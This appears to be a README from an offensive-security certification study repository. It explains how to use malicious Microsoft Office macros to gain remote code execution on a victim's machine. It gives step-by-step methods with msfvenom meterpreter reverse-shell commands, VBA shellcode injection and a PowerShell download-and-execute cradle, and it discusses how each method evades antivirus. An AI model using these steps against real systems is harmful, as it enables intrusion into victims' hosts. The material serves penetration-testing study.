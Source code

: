 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open, but the are three main ways to gain RCE leveraging this scripts.

<br>

### Simple VBA way.

The simply VBA way works with in an enviroment with no AV or EDR mechanism enabled.

1. We craft a meterpreter executable with the help of [msfvenomPayloads.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/msfvenomPayloads.sh) script.

2. Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) in order to download and store in the victim machine the msfvenom payload we crafted before and then we execute it. 

3. Finally, with the contents PSHTTPDownloader.vba properly formed, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document. 

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Is worth to mention that, because we store the malware on the hard disk (since we download a binary), an AV can detect malicious hash on this file and because we simply execute the payload, we create a new process that is checked by the AV before it get properly executed so is also suscetible to be caneceled.

Thus, we terminate this part by saying that this method of gain RCE on a machine is highly insecure.

<br>

### Inyecting shellcode on an existing process.

There are more sofistaced ways to gain RCE that avoids defense mechanism, here we will see two; with VBA and with PowerShell mixed with VBA.

<br>

#### The VBA way.

We can directly create a macro that stores a shellcode and execute it.

1. First we create a Shellcode for a 'vbaapplication' making use of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh)

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<LPORT> EXITFUNC=thread -f vbapplication
    ```

2. Then, make use of the [ShellCode.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/ShellCode.vba) and paste on it the crafted shellcode replacing the *buf* variable. 

3. With the ShellCode.vba finished, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).


This method is kind of more reliable than the one before because the ShellCode.vba make use of a Win32 API; *CreateThread*, that creates an execution thread on the current process (inyecting code) effectively bypassing the execution process cheking by the AV that only happens at the launching of a new process. 

However, this still a dangerous way because we still storing malicious code on the hardisk; the proper shellcode.vba macro.

<br>

#### Make use of PowerShell resources.

We can execute the code of a remote script by using some Powershell methods.

1. First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file for a 'ps1' application, this is:

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f ps1
    ```
2. Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) or [CustomeShellcodeRunner.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/CustomeShellcodeRunner.ps1) script.

3. Then, we make use of [LaunchinApp_Shell.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/LaunchinApp_Shell.vba) to execute a PowerShell program that downloads and executes the prepared VBAenvlauncher.ps1 script. The line stored on the *str* var must be:

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadString('<URL>') | IEX
    ```

    Replacing the \<URL\> with the proper vaules.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Thus, we inyect in the flow of execution of an existing proces the contents of a script which not exist on the current system soc cannot be detected with the AV.

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation. 

<br>
